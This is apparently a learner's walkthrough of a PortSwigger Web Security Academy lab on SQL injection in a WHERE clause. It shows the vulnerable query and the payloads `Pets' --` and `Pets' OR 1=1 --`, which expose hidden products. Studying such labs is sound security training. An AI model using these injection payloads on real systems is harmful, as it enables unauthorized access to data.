

# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data>  
Difficulty: APPRENTICE  
Python script: [script.py](script.py)

## Known information

- vulnerable to SQL injection
- parameter: URL argument category
- Query string used
- Result: Page contains filtered view of the category, showing only released products
- Goal: Show unreleased products

## Query

Query is provided as

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The category string is likely taken directly from the URL argument

```sql
SELECT * FROM products WHERE category = '<PARAM>' AND released = 1
```

## Steps

### Find baseline

Find out what is the baseline, select Pets

--> 3 entries shown

### Ignore released part of query

Need to inject something that causes the 'AND released = 1' part to be ignored, for example by injecting a comment that ignores all the remaining part of the query.

```sql
SELECT * FROM products WHERE category = 'Pets' -- AND released = 1
```

inject `Pets' --`

This results in this query

```sql
SELECT * FROM products WHERE category = 'Pets' -- ' AND released = 1
```

Note the single quote after the `--`, which is added by the application. Due to the comment we don't have to deal with it.

#### URL encode

The URL needs to be properly encoded. When using a browser, this will be done automatically by the browser but is not shown in the URL bar. When using Burp Repeater the URL encoding needs to be done manually with `Ctrl+U`


==> 4 entries shown

### Show all products regardless of category

To show all products, regardless of category or released status, inject a string that evaluates to `TRUE` for each entry in the table.

```sql
Pets' OR 1=1 --
```


